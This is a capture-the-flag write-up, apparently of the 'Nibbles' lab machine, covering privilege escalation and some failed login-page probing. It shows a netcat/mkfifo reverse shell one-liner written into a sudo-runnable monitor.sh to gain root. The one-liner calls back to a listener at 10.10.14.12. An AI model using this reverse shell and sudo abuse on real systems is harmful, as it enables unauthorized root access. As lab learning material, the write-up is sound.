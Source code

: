 # Privilege Escalation
---
Sudo -l demonstrated that we can run a specific .sh file here:
```bash
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

It wasn't present immediately, but was able to 'unzip' the personal. zip and drill down to this specific location.
Reviewed the .sh file and it doesn't seem to be anything important (or functional).

Backed up the monitor.sh file (`cp monitor.sh monitor.sh.bak`)
Pulled the Netcat OpenBSD command from [Here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and customized:
```bash
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f" > monitor.sh
```
Started the listener
Executed with sudo
Listener picked up

Confimed I was root, navigated to ~, cat'd out the root.txt and submitted the flag.

# Failures
---
## Source Code Review
Pulled the following string from the source code on the admin.php page for reference:
```html
<div class="title">Sign in to Nibbleblog admin area</div><form id="js_form" name="form" method="post"  ><div class="form_block" ><input class="username" name="username" type="text" placeholder="Username" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input class="password" name="password" type="password" placeholder="Password" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input type="checkbox" id="js_remember" name="remember" class="float"  value="1"/><label class="for_checkbox remember" for="js_remember" >Remember me</label><input type="submit" class="save" value="Login" /></div></form><a class="back" href="/nibbleblog/" >&larr;Back to blog</a>
```

## Burp Intercept
Started up proxy/intercept and sent through a failed login attempt to gather some additional info (looks like manual source code review would've been fine)
```
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.10.75
Connection: close
Referer: http://10.10.10.75/nibbleblog/admin.php
Cookie: PHPSESSID=as0e24pp4s5nnfk2daegr6hjh6
```